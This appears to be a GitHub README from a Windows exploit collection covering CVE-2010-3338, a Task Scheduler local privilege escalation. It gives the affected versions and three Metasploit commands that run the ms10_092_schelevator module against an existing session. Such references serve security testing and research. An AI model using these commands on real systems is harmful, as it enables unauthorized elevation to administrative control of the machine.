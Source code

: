 ### CVE-2010-3338

#### Describe

The Windows Task Scheduler in Microsoft Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 does not properly determine the security context of scheduled tasks, which allows local users to gain privileges via a crafted application, aka "Task Scheduler Vulnerability." NOTE: this might overlap CVE-2010-3888.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Utilization

Test system  Windows Server 2008 SP2 x86，Using the MSF to execute the following command, the X64 version MSF does not support

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-3338_win2008_x86_msf.png)

Then it will be successful.

![image-20200822234608009](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-3338_win2008_x86_msf2.png)

